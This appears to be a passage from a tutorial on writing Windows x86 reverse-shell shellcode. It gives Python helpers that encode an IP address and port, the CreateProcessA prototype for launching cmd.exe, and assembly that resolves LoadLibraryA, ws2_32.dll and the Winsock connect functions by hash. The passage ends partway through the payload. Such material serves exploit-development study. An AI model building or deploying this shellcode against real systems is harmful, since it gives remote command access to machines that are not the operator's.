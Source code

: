 ```py
def hex_ip(ip_address):
    ip_addr_hex = []
    for block in ip_address.split("."):
        ip_addr_hex.append(format(int(block), "02x"))
    ip_addr_hex.reverse()
    return "0x" + "".join(ip_addr_hex)


def hex_port(port):
    port_hex = format(int(port), "04x")
    return "0x" + str(port_hex[2:4]) + str(port_hex[0:2])
```

Next to initiate the connection, we need to start a cmd.exe process. We will use the CreateProcessA API.

```cpp
BOOL CreateProcessA(
  LPCSTR lpApplicationName,
  LPSTR lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCSTR lpCurrentDirectory,
  LPSTARTUPINFOA lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

```py
        push_loadlibrarya_hash,                # LoadLibraryA hash
        "       call dword ptr [ebp+0x04]       ;",  # Call find_function
        "       mov [ebp+0x14], eax             ;",  # Save LoadLibraryA address for later
        push_createprocessa_hash,              # CreateProcessA hash
        "       call dword ptr [ebp+0x04]       ;",  # Call find_function
        "       mov [ebp+0x18], eax             ;",  # Save CreateProcessA address for later
        "   load_ws2_32:                         ",
        "       xor eax, eax                    ;",  # Null EAX
        "       mov ax, 0x6c6c                  ;",  # Move the end of the string in AX
        "       push eax                        ;",  # Push EAX on the stack with string NULL terminator
        "       push 0x642e3233                 ;",  # Push part of the string on the stack
        "       push 0x5f327377                 ;",  # Push another part of the string on the stack
        "       push esp                        ;",  # Push ESP to have a pointer to the string
        "       call dword ptr [ebp+0x14]       ;",  # Call LoadLibraryA
        "   resolve_symbols_ws2_32:              ",
        "       mov ebx, eax                    ;",  # Move the base address of ws2_32.dll to EBX
        push_wsastartup_hash,                  # WSAStartup hash
        "       call dword ptr [ebp+0x04]       ;",  # Call find_function
        "       mov [ebp+0x1C], eax             ;",  # Save WSAStartup address for later usage
        push_wsasocketa_hash,                  # WSASocketA hash
        "       call dword ptr [ebp+0x04]       ;",  # Call find_function
        "       mov [ebp+0x20], eax             ;",  # Save WSASocketA address for later usage
        push_wsaconnect_hash,                  # WSAConnect hash
        "       call dword ptr [ebp+0x04]       ;",  # Call find_function
        "       mov [ebp+0x24], eax             ;",  # Save WSAConnect address for later usage
        "   call_wsastartup:                    ;",
        "       mov eax, esp                    ;",  # Move ESP to EAX
        "       xor ecx, ecx                    ;",
        "       mov cx, 0x590                   ;",  # Move 0x590 to CX
        "       sub eax, ecx                    ;",  # Substract CX from EAX to avoid overwriting the structure later
        "       push eax                        ;",  # Push lpWSAData
```